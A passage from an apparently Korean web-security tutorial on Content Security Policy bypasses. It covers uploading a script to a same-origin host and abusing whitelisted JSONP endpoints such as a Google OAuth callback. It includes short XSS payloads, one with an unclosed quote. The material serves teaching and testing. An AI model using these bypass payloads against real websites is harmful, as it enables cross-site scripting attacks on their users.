 위 정책의 경우 script-src 지시어를 self로 설정하여 동일한 도메인에서만 스크립트를 불러올 수 있도록 설정되어 있지만, 해당 도메인에 파일 업로드 및 다운로드 기능이 존재하다면, 해당 도메인에 악성 스크립트를 업로드 후 불러올 수 있다.

### [Payload]

```javascript
<script src="/uploads/script.js></script>
```

## 5. JSONP Callback

CSP 지시어에 포함된 도메인에서 SOP를 우회하여, 도메인 간 문제없이 서버에서 데이터를 요청 및 검색할 수 있도록, JSONP API를 제공하는 경우가 있다. 이 때 JavaScript의 GET 형식의 Callback 매개변수를 통해 JSONP 엔드포인트에 삽입될 수 있다. 이 삽입된 입력값은 JSON 으로 반환된다. 대표적으로 google이 존재한다.

<https://accounts.google.com/o/oauth2/revoke?callback=alert(1)>
![그림 1-1](/assets/image/vuln/web-vuln/Content%20Security%20Policy(CSP)%20Bypass/image.png)

```javascript
Content-Security-Policy: script-src https://www.google.com https://accounts.google.com;
```

### [Payload]

```javascript
data?=https://accounts.google.com/o/oauth2/revoke?callback=alert(1)
data?=<script src=https://accounts.google.com/o/oauth2/revoke?callback=alert(1)></script>
```

아래 사이트에서 JSONP API를 지원하는 URI들에 대해 공개하고 있다.<br>
https://github.com/zigoo0/JSONBee

# Reference
- https://csp-evaluator.withgoogle.com/
- https://developer.mozilla.org/ko/docs/Web/HTTP/CSP
- https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass
- https://www.cobalt.io/blog/csp-and-bypasses
